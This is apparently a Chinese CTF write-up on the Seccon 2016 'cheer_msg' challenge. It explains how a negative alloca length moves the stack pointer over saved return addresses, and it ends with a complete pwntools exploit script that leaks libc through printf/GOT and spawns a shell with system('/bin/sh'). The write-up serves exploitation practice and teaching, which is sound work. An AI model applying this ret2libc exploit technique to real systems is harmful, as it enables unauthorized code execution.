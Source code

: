 ```yaml
---
title: 一步一步 Pwn RouterOS之ctf题练手
authorId: hac425
tags:
  - alloca
  - ctf
categories:
  - pwn_router_os
date: 2018-01-05 21:38:00
---
```

### 前言


---
本文由 **本人** 首发于 先知安全技术社区：  https://xianzhi.aliyun.com/forum/user/5274

---


本文目的是以一道比较简单的 `ctf` 的练手，为后面的分析  `RouterOs` 的 漏洞和写 `exploit` 打基础。

`Seccon CTF quals 2016` 的一道题。

题目，idb 文件：

https://gitee.com/hac425/blog_data/tree/master/pwn_with_alloca


### 正文
首先看看 `main` 函数的代码。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15151601513002tz99qyj.png?imageslim)

逻辑还是比较简单的获取输入后，简单的加了 `30` 就给 `alloca` 去分配空间，然后进入 `message` 函数。

`alloca` 函数是 从 栈上分配内存， 它分配内存是通过 `sub esp , *` 来实现的，我们可以转到汇编代码看看。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515160871164u36cvqez.png?imageslim)

可以看到调用 `alloca` 实际就是通过 `sub esp, eax` 来分配栈内存。

我们输入的 `num` 是 `int` 类型的

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515161037092srnu0pi2.png?imageslim)

如果我们输入 `num` 为 负数， `sub esp` 就相当于 `add esp` 我们可以把栈指针往栈底移动。

继续往下看

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515161251064vsu5zpke.png?imageslim)

接下来会调用 `message` 函数， 可以看到传给他的参数为 `esp + 23` 和 `num` ， 进入 `message` 函数 ，看看他的逻辑。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515161389377ru08eqe3.png?imageslim)
首先读取 `n` 个字符 到 `buf` ， 这两个变量就是我们传入的参数。

然后读入 `0x40` 个字符到  `message` 函数自己定义的局部变量中。

一切都很正常，没有溢出，没有格式化字符串漏洞。


程序的漏洞在于传入的 `buf` 是通过 `alloca` 分配的内存，我们可以通过输入 负数 使得 `alloca`的参数为负， 这样我们就可以把 `esp` 往栈底移动，栈底有**返回地址**, 然后通过 `message`  中读取数据，覆盖 `eip` 然后进行 `rop` 即可。

要触发漏洞我们需要输入负数，所以在 

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515162118968n3v5nlzd.png?imageslim)
会直接返回，不会获取输入，因为它里面调用的是 `fgets`来获取输入。`fgets`会有检查。
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515162247314nycp4hlw.png?imageslim)

所以我们只能往 `message` 函数内的缓冲区 `t_buf`写数据，不过这个缓冲区也是在栈上，同样与 `esp` 相关，所以我们把`esp` 往栈底移时，它也是会跟着下移，通过它也可以写 `返回地址` 的值。

我们可以输入 `-140`(这个值可以通过 先输入一个 比较小的比如 `-32`, 然后计算最后得到的数据的地址距离返回地址位置的距离，来继续调整)

在 `0x0804860E` 设个断点

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515164055082ht6doej3.png?imageslim)

`sub` 之后
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515164096301tgle7wih.png?imageslim)

可以看到 `esp` 已经增大。
然后加上一定的 `padding` (可以使用 `pwntools` 的 `cyclic` 计算) ，就能修改 返回地址了。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515164574183kx3lzgi2.png?imageslim)

之后就是正常的 `rop`

-----------

使用 `printf` 打印 `got` 表中的 `printf` 的值，泄露 `libc` 的地址。然后回到程序的开始，再次触发漏洞， 调用 `system("sh")`

----------


### 总结

`alloca` 的细节要注意， 注意输入的数据是有符号的还是无符号的。对于后面计算偏移，可以先动态调试计算一个粗略的值，然后使用 `cyclic` 确定精确的偏移。


**exp**

```
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-v']
r = process("./cheer_msg")

binary = ELF('cheer_msg')
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')

gdb.attach(r, '''
bp 0x0804868B
bp 0x08048610
	''')

r.recvuntil("Length >> ")
r.sendline("-140")
r.recvuntil("Name >> ")

payload = "a" * 0x10 # padding
payload += p32(binary.symbols['printf'])
payload += p32(binary.entry)  # ret to start
payload += p32(binary.got['printf'])

r.sendline(payload)

r.recvuntil("Message :")
r.recv(1)
r.recv(1)
printf_addr = u32(r.recv(4))
libc_base = printf_addr - libc.symbols['printf']
sh = libc_base + libc.search("/bin/sh\x00").next()
system = libc_base + libc.symbols['system']

log.info("got system: " + hex(system))
log.info("got base: " + hex(libc_base))
log.info("get sh " + hex(sh))



r.recvuntil("Length >> ")
r.sendline("-140")
r.recvuntil("Name >> ")

payload = "a" * 0x10 # padding
payload += p32(system)
payload += p32(binary.entry)
payload += p32(sh)
r.sendline(payload)

r.interactive()

```



参考：

https://github.com/0x90r00t/Write-Ups/tree/master/Seccon/cheer_msg